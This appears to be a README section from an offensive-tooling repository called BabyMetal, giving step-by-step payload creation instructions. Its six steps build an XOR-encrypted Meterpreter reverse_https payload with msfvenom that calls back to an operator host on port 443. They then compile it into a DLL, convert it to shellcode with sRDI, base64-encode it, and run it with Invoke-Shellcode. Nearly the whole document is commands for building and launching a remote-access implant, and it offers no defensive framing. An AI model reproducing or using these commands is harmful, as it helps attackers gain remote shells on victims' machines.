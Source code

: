 Payload creation instructions

1. Generate shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.4 LPORT=443 EXITFUNC=thread -f C --encrypt xor --encrypt-key m
```

2. Paste shellcode into BabyMetal.cpp

3. Compile as DLL

```
g++ -shared BabyMetal.cpp -o BabyMetal.dll
```

4. Convert to shellcode with sRDI

```
Import-Module ConvertTo-Shellcode.ps1
$shellcode = ConvertTo-Shellcode -File .\babymetal.dll -FunctionName BabyMetal
```

5. Convert to base64 and write to file

```
$encoded = [System.Convert]::ToBase64String($shellcode)
Set-Content encoded.txt $encoded
```

6. Execute shellcode

```
Import-Module Invoke-Shellcode.ps1
Invoke-Shellcode -Shellcode $shellcode
```

Note: If you don't have g++, install it with Chocolatey:

```
choco install mingw
```
